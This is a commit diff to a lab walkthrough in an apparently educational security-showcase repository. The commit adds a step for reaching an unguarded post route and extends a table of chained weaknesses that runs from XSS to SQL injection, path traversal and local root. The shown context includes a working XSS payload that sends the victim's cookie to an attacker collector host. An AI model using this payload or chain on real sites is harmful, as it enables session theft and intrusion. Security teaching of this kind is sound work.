

Before and after one commit to KOliver94/security-showcase, a Markdown page: docs/walkthrough.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/walkthrough.md
+++ b/docs/walkthrough.md
@@ -104,7 +104,15 @@ It enables CORS, so the cross-origin `fetch` from the victim's page is allowed.
 
 ### 1d. Register, log in, and post the payload
 
-Register any user at `http://192.168.56.10:5001/register`, log in, then create a post whose **body** is an XSS payload. Because `<script>` is filtered, use an `onerror` handler instead — point it at *your* collector (`192.168.56.20:4000`), not `localhost`:
+Register any user at `http://192.168.56.10:5001/register` and log in — an ordinary, non-admin account.
+
+The **Post News** button is hidden for non-admins, so it looks like you can't post. That's UI only: the route behind it, `/news/create`, is `@login_required` but **not** admin-gated (see [vuln #2](vulnerabilities.md)), so any logged-in user can reach it by guessing the path. Browse straight to it:
+
+```
+http://192.168.56.10:5001/news/create
+```
+
+Submit a post whose **body** is an XSS payload. Because `<script>` is filtered, use an `onerror` handler instead — point it at *your* collector (`192.168.56.20:4000`), not `localhost`:
 
 ```html
 <img src=x onerror="fetch('http://192.168.56.20:4000',{method:'POST',body:JSON.stringify({cookie:document.cookie}),headers:{'Content-type':'application/json'}})">
@@ -305,13 +313,14 @@ frank : trustno1
 | # | Weakness | Alone it looks like… | In the chain it became… |
 |---|----------|----------------------|-------------------------|
 | 1 | Blacklist XSS filter + `\| safe` | "we strip `<script>`" | admin session theft |
-| 2 | `HTTPONLY = False` | "a workaround" | cookie readable by the payload |
-| 3 | f-string in SQL | "it's just an id" | full `users` dump |
-| 4 | MD5, unsalted | "it's hashed" | instant credential crack |
-| 5 | Password reuse | "same admin everywhere" | lateral move to app #2 |
-| 6 | `startswith` path check | "it's restricted" | arbitrary file read |
-| 7 | Secret typed into history | "harmless typo" | SSH foothold |
-| 8 | Unpatched kernel | "we'll patch later" | local root |
+| 2 | Hidden button, open route | "normal users can't post" | low-priv user plants the payload |
+| 3 | `HTTPONLY = False` | "a workaround" | cookie readable by the payload |
+| 4 | f-string in SQL | "it's just an id" | full `users` dump |
+| 5 | MD5, unsalted | "it's hashed" | instant credential crack |
+| 6 | Password reuse | "same admin everywhere" | lateral move to app #2 |
+| 7 | `startswith` path check | "it's restricted" | arbitrary file read |
+| 8 | Secret typed into history | "harmless typo" | SSH foothold |
+| 9 | Unpatched kernel | "we'll patch later" | local root |
 
 No single bug is exotic. The compromise is the **sum**.
 
````
Also changed, not shown: docs/hints.md (+7 -2 lines), docs/vulnerabilities.md (+34 -17 lines).
